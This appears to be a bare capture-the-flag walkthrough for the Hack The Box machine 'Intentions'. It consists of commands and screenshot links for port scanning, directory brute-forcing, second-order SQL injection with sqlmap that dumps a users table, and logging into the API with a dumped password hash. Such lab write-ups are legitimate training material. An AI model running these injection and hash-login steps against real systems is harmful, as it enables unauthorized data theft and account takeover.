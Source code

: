 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/528dff0c-5310-4215-a2d5-7be40b47e7bd)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://intentions.htb/FUZZ -fs 162 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e5bb805-89c5-4842-a466-280fab8a28f3)

```
registration
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a12ee51-5c45-49b3-8cff-a1730160b60d)


```
sqlmap -r req1.txt --batch
sqlmap -r req2b.txt --batch
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a41968e9-a125-4022-9554-7a2015c569a3)

![image](https://github.com/regarmulia/HTB/assets/33616880/a8183c38-7b4f-423c-8661-ca351f473565)

![image](https://github.com/regarmulia/HTB/assets/33616880/318256aa-4f54-4605-b7d5-2b4add64a990)



```
sqlmap -r req1.txt --second-req=req2.txt --batch --tamper=space2comment
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1a7c8a8c-c45e-4474-86ac-090c34b7db0e)

![image](https://github.com/regarmulia/HTB/assets/33616880/806ea88f-c009-46ad-95b3-92d8e9cd2c79)


```
sqlmap -r updateGenresRequest --second-req=fetchFeedRequest --batch --tamper=space2comment --tables
```
![image](https://github.com/regarmulia/HTB/assets/33616880/230307ac-31be-47bc-9385-19d400791dd8)


```
sqlmap -r req1b.txt --second-req=req2b.txt --batch --tamper=space2comment -T users --dump
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0fa022ca-bc8b-4cfb-9d89-05da8947f30d)


```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -t 100 -u http://intentions.htb/api/v2/auth/ -b 403,404
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a8a78134-9bdc-4b0b-9bcd-75725f2578f4)


```
http://10.10.11.220/api/v2/auth/login
curl -X POST http://intentions.htb/api/v2/auth/login
curl -X POST http://intentions.htb/api/v1/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/94443e9d-fda1-424e-aa75-2bc33dbccf6e)

![image](https://github.com/regarmulia/HTB/assets/33616880/91adcde2-ab47-4d10-8890-016e7d0e6534)


```
curl -d 'email=steve@intentions.htb&hash=$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa' -X POST http://intentions.htb/api/v2/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a740f795-07cd-49c5-b0fa-4cba7ec0a070)

![image](https://github.com/regarmulia/HTB/assets/33616880/50514396-8dea-43e8-8654-ee351d81958b)


```
http://10.10.11.220/
http://intentions.htb/api/v2/auth/login
Edited: v2, hash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20c9ec85-1a6a-4f92-b883-011609a50140)

![image](https://github.com/regarmulia/HTB/assets/33616880/9bde9358-3c79-4186-9cbc-63ebb13ec344)

![Uploading image.png…]()


